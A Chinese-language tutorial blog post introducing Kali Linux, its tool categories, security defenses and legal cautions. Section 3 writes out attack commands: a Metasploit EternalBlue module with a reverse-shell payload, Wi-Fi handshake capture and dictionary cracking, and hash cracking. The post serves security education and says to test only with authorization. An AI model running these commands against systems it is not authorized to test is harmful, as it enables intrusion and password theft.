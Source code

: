 ```yaml
---
layout: post
title: 'Kali Linux 从入门到实战：系统详解与工具指南'
date: "2025-05-27T00:40:39Z"
---
```

Kali Linux 从入门到实战：系统详解与工具指南
===========================

**Kali Linux 从入门到实战：系统详解与工具指南**

* * *

**1\. Kali Linux 简介**

**Kali Linux** 是一款基于 **Debian** 的 Linux 发行版，专为 **渗透测试** 和 **网络安全审计** 设计，由 **Offensive Security** 团队维护。其前身是 **BackTrack**，目前集成超过 **600** **款安全工具**，覆盖渗透测试全流程。  
**核心功能**：

*   **渗透测试**：模拟攻击以发现漏洞。
*   **数字取证**：数据恢复与分析。
*   **无线安全测试**：Wi-Fi、蓝牙安全评估。
*   **漏洞研究**：分析漏洞原理与利用方法。

**适用人群**：安全研究人员、渗透测试工程师、红队成员。

* * *

**2\. Kali Linux 核心功能模块**

**（1）信息收集**

*   **Nmap**：网络扫描与主机发现。
*   **Recon-ng**：自动化信息收集框架。
*   **theHarvester**：从公开渠道（搜索引擎、PGP密钥）收集目标邮箱、子域名。

**（2）漏洞分析**

*   **OpenVAS**：漏洞扫描与管理。
*   **Nessus**（需商业授权）：企业级漏洞评估。
*   **sqlmap**：自动化 SQL 注入检测。

**（3）Web 应用测试**

*   **Burp Suite**：Web 流量拦截与漏洞探测。
*   **OWASP ZAP**：开源 Web 漏洞扫描器。
*   **DirBuster**：目录与文件暴力枚举。

**（4）密码攻击**

*   **John the Ripper**：密码哈希破解。
*   **Hashcat**：GPU 加速的哈希破解工具。
*   **Hydra**：网络服务密码爆破（SSH、FTP 等）。

**（5）无线攻击**

*   **Aircrack-ng**：Wi-Fi 密码破解与流量分析。
*   **Kismet**：无线网络嗅探与入侵检测。
*   **Wifite**：自动化无线攻击工具。

**（6）逆向工程**

*   **Ghidra**：NSA 开源的逆向分析工具。
*   **radare2**：命令行逆向框架。
*   **OllyDbg**（Windows 兼容）：动态调试工具。

**（7）权限维持与后渗透**

*   **Metasploit Framework**：漏洞利用与后渗透模块。
*   **Cobalt Strike**（商业工具）：高级红队行动平台。
*   **Empire**：基于 PowerShell 的后渗透框架。

* * *

**3\. 工具使用示例（命令+注释）**

**（1）Nmap 扫描目标开放端口**

nmap -sV -p 1-1000 192.168.1.1

*   \-sV：探测服务版本。
*   \-p 1-1000：扫描 1-1000 号端口。

**（2）Metasploit 利用漏洞**

msfconsole                 _\#_ _启动 Metasploit_

use exploit/windows/smb/ms17\_010\_eternalblue  _\#_ _选择 EternalBlue 漏洞模块_

set RHOSTS 192.168.1.100   _\#_ _设置目标 IP_

set PAYLOAD windows/x64/meterpreter/reverse\_tcp  _\#_ _设置反向 Shell 载荷_

exploit                    _\#_ _执行攻击_

**（3）Burp Suite 拦截 Web 请求**

1.  启动 Burp Suite，浏览器设置代理为 127.0.0.1:8080。
2.  拦截模式（Proxy → Intercept → ON），捕获并修改 HTTP 请求（如 SQL 注入测试）。

**（4）Aircrack-ng 破解 Wi-Fi 密码**

airmon-ng start wlan0          _\#_ _启用监听模式_

airodump-ng wlan0mon           _\#_ _扫描附近 Wi-Fi_

airodump-ng -c 6 --bssid AP:MAC -w capture wlan0mon  _\#_ _抓取目标 AP 握手包_

aircrack-ng -w rockyou.txt capture.cap  _\#_ _使用字典破解密码_

**（5）John the Ripper 破解哈希**

echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt  _\#_ _保存 MD5 哈希（密码：password）_

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

* * *

**4\. 网络安全防范措施**

**针对工具攻击的防御**

*   **Nmap 扫描防御**：

*   关闭非必要端口，使用防火墙（iptables/ufw）限制访问。
*   部署入侵检测系统（**Snort**、**Suricata**）。

*   **Metasploit 漏洞利用防御**：

*   定期更新系统补丁（如修复 EternalBlue 的 MS17-010）。
*   禁用高危服务（如 SMBv1）。

*   **密码爆破防御**：

*   使用强密码策略（12+字符，字母+数字+符号）。
*   启用账户锁定机制（如失败 5 次锁定 30 分钟）。

*   **中间人攻击防御**：

*   使用 HTTPS 加密通信，部署 HSTS。
*   避免连接公共 Wi-Fi 执行敏感操作，使用 VPN。

* * *

**5\. Kali 最佳使用实践**

**（1）系统配置建议**

*   **虚拟机隔离**：使用 VirtualBox 或 VMware 运行 Kali，避免宿主机被污染。
*   **专用硬件**：使用树莓派或旧笔记本作为“便携式攻击平台”。
*   **定期更新**：

sudo apt update && sudo apt full-upgrade -y

**（2）法律与道德规范**

*   **授权测试**：仅在获得书面授权后扫描目标网络。
*   **合规性**：遵守《网络安全法》等法律法规，禁止非法渗透。

**（3）系统运维管理**

*   **清理磁盘空间**：

sudo apt autoremove          _\#_ _删除无用包_

sudo rm -rf /var/log/\*.gz    _\#_ _清理旧日志_

*   **备份配置**：

tar -czvf kali\_backup.tar.gz /etc /home  _\#_ _打包关键数据_

*   **监控资源**：

htop       _\#_ _实时查看 CPU/内存占用_

iftop      _\#_ _监控网络流量_

* * *

**6\. 注意事项**

*   **默认凭据风险**：Kali 默认用户名为 kali，密码 kali，首次登录后务必修改！
*   **工具误用**：部分工具（如 Metasploit）可能触发目标告警系统，需谨慎使用。
*   **资源占用**：Aircrack-ng、Hashcat 等工具可能占用大量 CPU/GPU 资源。

* * *

**7\. 总结**

Kali Linux 是网络安全领域的“瑞士军刀”，但其威力需在合法合规的前提下使用。建议：

1.  在虚拟机中学习，避免影响真实环境。
2.  结合 CTF 靶场（如 Hack The Box、VulnHub）实践。
3.  持续学习 OWASP Top 10、CVE 漏洞库等知识。

**记住：技术是中性的，善恶取决于使用者。**